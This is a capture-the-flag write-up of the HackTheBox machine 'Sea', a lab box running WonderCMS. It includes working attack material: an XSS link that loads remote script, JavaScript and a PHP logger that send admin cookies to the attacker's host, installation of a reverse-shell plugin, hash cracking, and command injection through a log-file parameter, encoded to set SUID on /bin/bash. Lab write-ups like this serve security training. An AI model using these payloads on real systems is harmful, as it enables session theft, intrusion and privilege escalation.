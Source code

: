 ```yaml
---
layout: post
title: "Sea"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup]
pin: true
math: true
mermaid: true
#image:
 # path: /assets/img/commons/hackthebox.png
  #lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
 # alt: Hackthebox Image
---
```


as always starting with nmap

`sudo nmap -sC -sV -p- -oN sea 10.10.11.28`
![nmap_sea.png]/source/SEA/'Pasted image 20240813000337.png'

nothing just web (Stupid one)

nothing interesting in the website so , let's move to fuzzing

`feroxbuster  --url http://10.129.115.194 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,404

![[Pasted image 20240813000823.png]]

the license page 
```
MIT License

Copyright (c) 2019 turboblack

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:
```

![[Pasted image 20240813001042.png]]

so we are dealing with WondwerCMS

this CVE is interesting since we are on version 3.2.0 (check http://sea.htb/themes/bike/version)
https://github.com/prodigiousMind/CVE-2023-41425 

this script exploit  an xss to steal credential then use this creds to uplaod backdoored files

I will use the same plugins used in this exploit
```bash
wget https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip
```

we need to  change the ==rev.php== file on the zip 

```php
$VERSION = "1.0";
$ip = 'UR OWN IP'; // CHANGE THIS
$port = 1337;
```


then I  will host a web serve 

```bash
php -S 0.0.0.0:80
```

![[Pasted image 20240813003150.png]]

```bash
python3 exploit.py http://sea.htb/loginURL 10.10.14.224 1337
```

we need to find out a way to  send the link to the admin , since the web app is using ==php== let's fuzz for the .php file

```bash
feroxbuster  --url http://10.129.115.194  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,400 -x php 

```
![[Pasted image 20240813003629.png]]

![[Pasted image 20240813023000.png]]

once we fill the form , with the malicious link in the website field

```url
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.224/script.js"></script><form+action="
```

in the ==script.js==
```javascript
new Image().src='http://IP/index.php?c='+document.cookie
```

in the ==index.php==
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


we will get the admin cookie in our web server
![[Pasted image 20240813023404.png]]
changing the cookies , guarantee more privilege in the website , we can now upload plugin

we can install our malicious plugins now , by tampering with the request sent from this button
![[Pasted image 20240813023604.png]]

```HTTP
GET /?installModule=http://IP/main.zip&directoryName=violet&type=themes&token=a5d00073e50332dd0ca6d448d4ccddc9449c7ae27828bb35cee8112d67debd58 HTTP/1.1
```

by visiting http://sea.htb/themes/revshell-main/rev.php

we should get shell on our listener 
![[Pasted image 20240813024341.png]]

this file got my intention
`/var/www/sea/data/database.js`
if we check his content we will find a hash
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```

we need to remove the escapers to crack it
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q",
```

```bash
hashcat -a 0 -m 3200 --show hash                                       
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

this password got us  the  user ==amay==

another website is running on the port 8080 
```
amay@sea:~$ netstat -ntlp 
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:56005         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

but we need some type of authorization to access it

```bash
amay@sea:~$ curl 127.0.0.1:8080
Unauthorized access
```

I will reuse the password of amay
![[Pasted image 20240813025058.png]]

I will forward  the port 8080 to my machine , so I can see what's going on in this website

```
ssh -L 7000:localhost:8080 amay@sea.htb -N
```
 on http://127.0.0.1:7000/
 ![[Pasted image 20240813025643.png]]

I tried to read files , like ==/root/root.txt== but that didn't work 
![[Pasted image 20240813025715.png]]
so I tried to inject malicious command 

to confirm that , I will ping myself
first listen on the pings
``
```bash
sudo tcpdump -i  tun0 icmp
```

```HTTP
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;ping+-c+1+10.10.14.224&analyze_log=
```

this works
![[Pasted image 20240813030024.png]]

I will run
```
chmod u+s /bin/bash
```

```http
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68&analyze_log=
```

![[Pasted image 20240813030229.png]]

![[Pasted image 20240813030247.png]]
